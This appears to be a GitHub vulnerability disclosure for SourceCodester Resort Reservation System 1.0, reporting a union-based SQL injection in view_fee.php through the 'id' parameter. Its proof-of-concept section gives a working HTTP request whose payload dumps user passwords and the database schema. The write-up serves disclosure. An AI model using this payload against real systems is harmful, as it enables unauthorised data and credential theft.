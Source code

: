 # SourceCodester Resort Reservation System 1.0 has a SQL Injection vulnerability in view_fee.php
## Software

- Software: Resort Reservation System 1.0
- Software Link: https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

SourceCodester Resort Reservation System 1.0 has a SQL Injection vulnerability in view_fee.php. Affected is file view_fee.php, the manipulation of the argument id leads to SQL injection after users logged in. Remote attackers can exploit SQL union-based injection to retrieve all data from the database.

## Vulnerability Code
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/20631b9c-420f-4c29-92a8-0b5bf4e0d7ea)

## POC
```http
GET /index.php?page=view_fee&id=100%27%20union%20select%201,(select%20group_concat(password)%20from%20user_list),(select%20group_concat(sql)%20from%20sqlite_master),4,5,6,null--+ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=f887a8f5b6e7aeecbfe2daa133dc224c


```

![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/fdd23051-d3c2-4fed-9611-a4965bc1a1ce)
